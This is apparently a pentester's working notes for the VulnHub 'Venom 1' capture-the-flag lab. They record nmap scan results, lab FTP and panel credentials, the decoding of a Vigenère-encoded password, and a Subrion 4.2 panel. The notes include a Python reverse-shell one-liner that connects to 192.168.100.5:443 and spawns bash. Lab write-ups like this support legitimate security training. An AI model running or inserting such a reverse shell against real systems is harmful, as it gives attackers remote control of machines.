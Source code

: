 https://www.vulnhub.com/entry/venom-1,701/


---

**S1REN's Template Reference**

\[OS]: Unix
\[Web-Technology]: 
\[Hostname]:  
\[IP]:  192.168.100.4
\[USERS]:   
\[CREDENTIALS]:  hostinger

FTP: hostinger: hostinger
http://venom.box/panel/ - dora: E7r9t8@Q#h%Hy+M1234

---
\[To-Try LIST]:  
21:  ftp        vsftpd 3.0.3
![[Pasted image 20250819033712.png]]
![[Pasted image 20250819033823.png]]
└─$ cat hint.txt         
	Hey there... 

T0D0 --

You need to follow the 'hostinger' on 

WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0=  -> standard vigienere cipher

aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI= -> https://cryptii.com/pipes/vigenere-cipher


some knowledge of cipher is required to decode the **dora** password..
try on 
password -- L7f9l8@J#p%Ue+Q1234 -> deocode this you will get the **administrator** password 


admin :: dora
encrypted :: L7f9l8@J#p%Ue+Q1234
key :: hostinger
decrypted :: E7r9t8@Q#h%Hy+M1234
to try on: venom.box 


venom.box -> add to hosts -> webpage -> Powered by Subrion 4.2

![[Pasted image 20250819041003.png]]

rev shell:
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.5",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'`

![[Pasted image 20250819042218.png]]


80: Apache httpd 2.4.29 ((Ubuntu)) 
443: Apache httpd 2.4.29




---
\[NMAP RESULTS]:  

PORT     STATE  SERVICE    VERSION
21/tcp   open   ftp        vsftpd 3.0.3
22/tcp   closed ssh
80/tcp   open   http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp  open   http       Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
7070/tcp closed realserver
8084/tcp closed websnp

\[Web Services Enumeration]:   

**80 and 443:**  http://192.168.100.4:80,http://192.168.100.4:443
Apache httpd 2.4.29: https://www.exploit-db.com/exploits/744
https://launchpad.net/bugs/1288690 -> CVE 2016-4979
Page Source: 5f2a66f947fa5690c26506f66bde5c23 -> Crackstation -> hostinger
Gobuster - /server-status





========================================================================= \[OTHER / PRIVILEGE-ESCALATION]:   ========================================================================= \Take Away Concepts: *  *  *

    
    HOTKEYS! Background: Black Foreground (important elements): Red Background-Color: Select Text > Shift + Alt + B + ENTER Foreground Color: Select Text > Shift + Alt + F + ENTER Move quickly with: Function key + left and right arrows Cntrl + left and right arrows Cntrl + Shift (select text) (edited)
